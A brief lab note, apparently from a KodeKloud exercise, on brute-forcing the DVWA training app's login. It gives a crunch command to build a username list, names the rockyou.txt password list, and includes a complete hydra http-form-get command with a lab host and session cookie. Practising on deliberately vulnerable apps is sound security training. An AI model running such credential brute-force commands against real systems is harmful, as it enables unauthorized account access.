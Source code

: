 https://techbeatz.co.uk/cyber-security/dvwa-task-1-brute-force-using-hydra-developer-tools/

Replace DD API KEY

docker compose up -d --force-recreate --no-deps --build

Login to wherever it is hosted in kodekloud to obtain the URL as well as the PHP SessID. These are needed for the bruteforce.

cd to /Tools/wordlists/

Generate username using crunch
- Generate between 5 - 8 letters from letters been a-n and output in usernames.txt
```
crunch 5 8 abcdefghijklmn -o usernames.txt
```
For password, we will use rockyou.txt as list

hydra -f -S 4280-port-c9ca66e998614364.labs.kodekloud.com http-form-get "/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=submit:F=Username and/or password incorrect.:H=Cookie:security=low; PHPSESSID=752d8f869d751bceb05b112632080b5b" -l admin -P rockyou.txt